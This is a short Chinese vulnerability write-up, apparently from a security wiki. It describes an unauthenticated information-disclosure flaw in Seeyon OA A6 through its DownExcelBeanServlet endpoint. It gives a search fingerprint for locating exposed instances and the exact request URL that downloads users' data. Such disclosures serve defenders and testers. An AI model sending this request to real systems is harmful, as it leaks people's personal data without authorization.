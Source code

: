 # 致远OA A6 DownExcelBeanServlet 用户敏感信息泄露

## 漏洞描述

致远OA A6 存在某个未授权的接口导致任意访问者可下载OA中的用户信息

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="致远A8+协同管理软件.A6"</a-checkbox></br>

## 漏洞复现

访问如下URL即可跳转下载用户信息文件

```plain
/yyoa/DownExcelBeanServlet?contenttype=username&contentvalue=&state=1&per_id=0
```



![img](/assets/PeiQi-Wiki/img/zhiyuan-18.png)